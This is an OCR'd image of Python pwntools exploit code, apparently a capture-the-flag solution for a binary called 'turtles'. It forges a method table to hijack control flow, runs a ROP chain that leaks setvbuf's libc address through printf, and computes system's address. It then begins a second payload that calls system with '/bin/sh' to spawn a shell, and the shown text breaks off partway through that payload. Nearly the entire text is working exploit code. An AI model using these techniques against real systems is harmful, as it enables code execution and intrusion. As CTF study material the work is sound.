 ```py
rop_adjust4 = 0x00400d3c
rop_rdi = 0x00400d43
rop_rsi_r15 = 0x00400d41

method = rop_adjust4

base_vtable = 0x90
base_data = 0x80
rop_chain = b"CCCCCCCC"

printf_plt = 0x4009D0
setvbuf_got = 0x601288

rop = ROP([ELF("./turtles")])

rop.raw(rop_rdi)
rop.raw(turtle + base_data)

rop.raw(rop_rsi_r15)
rop.raw(setvbuf_got)
rop.raw(0)

rop.raw(printf_plt)
rop.raw(main_addr)

data = b"%sEND"

payload = (
    p64(turtle + base_vtable + 0x00 - 0x040) + # class

    rop.chain().ljust(base_data - 8, b"\0") +
    data.ljust(base_vtable - base_data, b"\0") +

    p64(turtle + base_vtable + 0x08 - 0x000) + # imp_table_struct
    p64(turtle + base_vtable + 0x10 - 0x64 * 8) + # tbl_level1
    p64(turtle + base_vtable + 0x18 - 0x15 * 8) + # tbl_level2
    p64(method)
)

r.send(payload.ljust(200, b'A'))

setvbuf_addr = u64(r.readuntil(b"END")[:-3].ljust(8, b"\0"))
print("setvbuf address: 0x{:016x}".format(setvbuf_addr))

libc.address = setvbuf_addr - libc.symbols[b"setvbuf"]
print("system address: 0x{:016x}".format(libc.symbols[b"system"]))

data = b"/bin/sh"

r.readuntil(b": ")
turtle = int(r.readline(), 16)
print("turtle address: 0x{:016x}".format(turtle))

method = rop_adjust4
rop = ROP([ELF("./turtles")])

rop.raw(rop_rdi)
rop.raw(turtle + base_data)
rop.raw(libc.symbols[b"system"])
rop.raw(0x4343434343434343)

payload = (
    p64(turtle + base_vtable + 0x00 - 0x040) + # class
```